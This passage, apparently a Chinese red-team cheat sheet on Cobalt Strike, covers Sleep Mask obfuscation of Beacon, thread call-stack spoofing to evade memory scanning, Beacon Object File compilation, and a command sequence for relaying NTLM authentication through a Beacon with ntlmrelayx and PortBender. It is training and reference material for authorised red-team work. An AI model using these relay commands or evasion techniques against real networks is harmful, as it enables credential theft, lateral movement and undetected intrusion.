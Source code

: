 > 睡眠面具工具包是执行睡眠前在内存中混淆 Beacon 的睡眠面具功能的源代码。

使用随附的 `build.sh` 或 `build.bat` 脚本在 Kali Linux 或 Microsoft Windows 上构建睡眠面具工具包。脚本为三种类型的 Beacon（默认、SMB 和 TCP）在 x86 和 x64 架构上构建睡眠面具对象文件，存放在 sleepmask 目录中。默认类型支持 HTTP、HTTPS 和 DNS Beacon。

### 线程栈欺骗器

> 一种高级的内存中规避技术，欺骗线程调用栈。这种技术允许绕过基于线程的内存检查规则，并在进程内存在时更好地隐藏 shellcode。

线程栈欺骗器现在在构件工具包中默认启用，可以通过配置文件 `arsenal_kit.config` 中的选项 `artifactkit_stack_spoof` 禁用它。

## Beacon对象文件

> Beacon对象文件只是一块位置无关代码，它接收指向某些Beacon内部API的指针

示例：https://github.com/Cobalt-Strike/bof_template/blob/main/beacon.h

* 编译

  ```ps1
  # 使用Visual Studio编译：
  cl.exe /c /GS- hello.c /Fohello.o
  
  # 使用x86 MinGW编译：
  i686-w64-mingw32-gcc -c hello.c -o hello.o
  
  # 使用x64 MinGW编译：
  x86_64-w64-mingw32-gcc -c hello.c -o hello.o
  ```

* 执行：`inline-execute /path/to/hello.o`

## 通过Cobalt Strike进行NTLM中继

```powershell
beacon> socks 1080
kali> proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://<IP_TARGET>
beacon> rportfwd_local 8445 <IP_KALI> 445
beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445
```

## 参考资料

* [Red Team Ops with Cobalt Strike (1 of 9): Operations](https://www.youtube.com/watch?v=q7VQeK533zI)
* [Red Team Ops with Cobalt Strike (2 of 9): Infrastructure](https://www.youtube.com/watch?v=5gwEMocFkc0)
* [Red Team Ops with Cobalt Strike (3 of 9): C2](https://www.youtube.com/watch?v=Z8n9bIPAIao)
* [Red Team Ops with Cobalt Strike (4 of 9): Weaponization](https://www.youtube.com/watch?v=H0_CKdwbMRk)
* [Red Team Ops with Cobalt Strike (5 of 9): Initial Access](https://www.youtube.com/watch?v=bYt85zm4YT8)
* [Red Team Ops with Cobalt Strike (6 of 9): Post Exploitation](https://www.youtube.com/watch?v=Pb6yvcB2aYw)
* [Red Team Ops with Cobalt Strike (7 of 9): Privilege Escalation](https://www.youtube.com/watch?v=lzwwVwmG0io)
* [Red Team Ops with Cobalt Strike (8 of 9): Lateral Movement](https://www.youtube.com/watch?v=QF_6zFLmLn0)
* [Red Team Ops with Cobalt Strike (9 of 9): Pivoting](https://www.youtube.com/watch?v=sP1HgUu7duU&list=PL9HO6M_MU2nfQ4kHSCzAQMqxQxH47d1no&index=10&t=0s)
* [A Deep Dive into Cobalt Strike Malleable C2 - Joe Vest - Sep 5, 2018 ](https://posts.specterops.io/a-deep-dive-into-cobalt-strike-malleable-c2-6660e33b0e0b)
* [Cobalt Strike. Walkthrough for Red Teamers - Neil Lines - 15 Apr 2019](https://www.pentestpartners.com/security-blog/cobalt-strike-walkthrough-for-red-teamers/)